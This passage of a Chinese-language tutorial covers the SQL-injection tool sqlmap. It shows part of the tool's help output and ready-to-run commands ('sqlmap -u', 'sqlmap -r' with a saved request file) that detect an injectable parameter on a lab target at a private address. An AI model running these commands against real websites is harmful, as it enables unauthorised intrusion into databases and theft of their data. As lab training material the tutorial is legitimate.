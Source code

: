 ```
    --table-prefix=T..  Prefix used for temporary tables (default: "sqlmap")
    --test-filter=TE..  Select tests by payloads and/or titles (e.g. ROW)
    --test-skip=TEST..  Skip tests by payloads and/or titles (e.g. BENCHMARK)
    --web-root=WEBROOT  Web server document root directory (e.g. "/var/www")

  Miscellaneous:
    These options do not fit into any other category

    -z MNEMONICS        Use short mnemonics (e.g. "flu,bat,ban,tec=EU")
    --alert=ALERT       Run host OS command(s) when SQL injection is found
    --beep              Beep on question and/or when vulnerability is found
    --dependencies      Check for missing (optional) sqlmap dependencies
    --disable-coloring  Disable console output coloring
    --list-tampers      Display list of available tamper scripts
    --no-logging        Disable logging to a file
    --offline           Work in offline mode (only use session data)
    --purge             Safely remove all content from sqlmap data directory
    --results-file=R..  Location of CSV results file in multiple targets mode
    --shell             Prompt for an interactive sqlmap shell
    --tmp-dir=TMPDIR    Local directory for storing temporary files
    --unstable          Adjust options for unstable connections
    --update            Update sqlmap
    --wizard            Simple wizard interface for beginner users
```



# sqlmap简单使用
## 1.判断是否有sql注入点
sqlmap -u "http://192.168.1.7/sql/less-1/?id=1"  --batch

```
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y //怀疑是mysql数据库跳过其他
...
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y //使用level risk的playload检测
...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

显示如图及存在注入点
![](Pasted%20image%2020221016141840.png)

## 2、判断文本中的请求是否存在注入 

判断是否存在注入的命令如下所示，运行后的结果如图3-6所示，-r一般在存 在cookie注入时使用。
sqlmap -r 1.txt --batch 

``` 1.txt
GET /sql/less-1/?id=1 HTTP/1.1

Host: 192.168.1.7

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close
```